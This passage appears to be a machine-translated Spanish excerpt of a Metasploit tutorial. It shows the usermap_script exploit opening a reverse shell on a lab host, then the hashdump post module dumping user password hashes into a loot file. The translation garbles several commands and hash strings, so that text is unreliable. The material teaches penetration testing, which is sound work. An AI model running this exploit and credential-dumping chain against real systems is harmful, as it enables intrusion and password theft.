 Aquí hay un ejemplo de cómo se llenaría la base de datos con algún botín .


	msf exploit ( usermap_script )> exploit
	
	[*] Iniciado doble manipulador inverso
	[*] Aceptó la primera conexión de cliente ...
	[*] Aceptó la segunda conexión de cliente ...
	[*] Comando: echo 4uGPYOrars5OojdL;
	[*] Escribiendo en el conector A
	[*] Escribiendo en el conector B
	[*] Leyendo desde enchufes ...
	[*] Leyendo desde el enchufe B
	[*] B: "4uGPYOrars5OojdL \ r \ n"
	[*] Coincidencia ...
	[*] A es entrada ...
	[*] Se abrió la sesión 1 del shell de comandos (172.16.194.163:4444 -> 172.16.194.172:55138) en 2012-06-27 19:38:54 -0400
	
	^ Z ¿ 
	Sesión de fondo 1? [Y / N]   y
	
	msf exploit ( usermap_script )> use post/linux/collect/hashdump 
	msf post ( hashdump )> mostrar opciones
	
	Opciones del módulo (post/linux/collect/hashdump):
	
	   Nombre Configuración actual requerida Descripción
	   ---- --------------- -------- -----------
	   SESIÓN 1 sí La sesión para ejecutar este módulo.
	
	msf post ( hashdump )> sesiones -l
	
	Sesiones activas
	===============
	
	  Conexión de información de tipo de identificación
	  - ---- ----------- ----------
	  1 shell unix 172.16.194.163:4444 -> 172.16.194.172:55138 (172.16.194.172)
	
	msf post ( hashdump )> run
	
	[+] root: $ 1 $ / avpfBJ1 $ x0z8w5UF9Iv. /DR9E9Lid.: 0: 0: root:/root:/bin/bash
	[+] sys: $ 1 $ fUX6BPOt $ Miyc3UpOzQJqz4s5wFD9l0: 3: 3: sys:/dev:/bin/sh
	[+] klog: $ 1 $ f2ZVMS4K $ R9XkI.CmLdHhdUE3X9jqP0: 103: 104 :: /home/klog:/bin/false
	[+] msfadmin: $ 1 $ XN10Zj2c $ Rt / zzCW3mLtUWA.ihZjA5 /: 1000: 1000: msfadmin ,,,: /home/msfadmin:/bin/bash
	[+] postgres: $ 1 $ Rw35ik.x $ MgQgZUuO5pAoUvfJhfcYe /: 108: 117: Administrador de PostgreSQL ,,,:/va /lib/postgresql:/bin/bash
	[+] usuario: $ 1 $ HESu9xrH $ k.o3G93DGoXIiQKkPmUgZ0: 1001: 1001: solo un usuario, 111 ,,:/home/user:/bin/bash
	[+] servicio: $ 1 $ kR3ue7JZ $ 7GxELDupr5Ohp6cjZ3Bu //: 1002: 1002: ,,,: /home/service:/bin/bash
	[+] Archivo de contraseña sin sombra: /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.hashes_264208.txt
	[*] Se completó la ejecución del módulo de publicación
	
	